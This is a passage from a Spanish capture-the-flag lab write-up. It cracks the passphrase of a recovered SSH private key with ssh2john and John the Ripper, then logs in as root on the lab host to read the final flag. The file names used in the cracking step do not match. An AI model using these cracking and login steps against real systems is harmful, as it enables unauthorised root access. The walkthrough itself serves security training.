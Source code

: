 Vamos a crackearla para obtener la frase usada en esta llave.

Primero, obtengamos el hash de esta llave con la herramienta **ssh2john** y lo guardamos en un archivo:
```bash
ssh2john id_rsa > hash
```

Ahora, lo crackeamos con **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash_idRsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (hash)     
1g 0:00:01:54 DONE (2025-06-06 11:57) 0.008706g/s 30.92p/s 30.92c/s 30.92C/s Password1..01234
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Genial, tenemos la frase.

Para usar la llave, tenemos que asignarle los permisos correctos con **chmod**:
```bash
chmod 600 id_rsa
```

Y la utilizamos para autenticarnos como **Root**:
```bash
ssh -i id_rsa root@192.168.10.90
Enter passphrase for key 'id_rsa': 
Linux salyazucar 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
...
Last login: Tue May 21 12:11:33 2024
root@salyazucar:~# whoami
root
```
Listo, ya somos **Root**.

Podemos obtener otra vez la última flag:
```bash
root@salyazucar:~# ls
root.txt
root@salyazucar:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
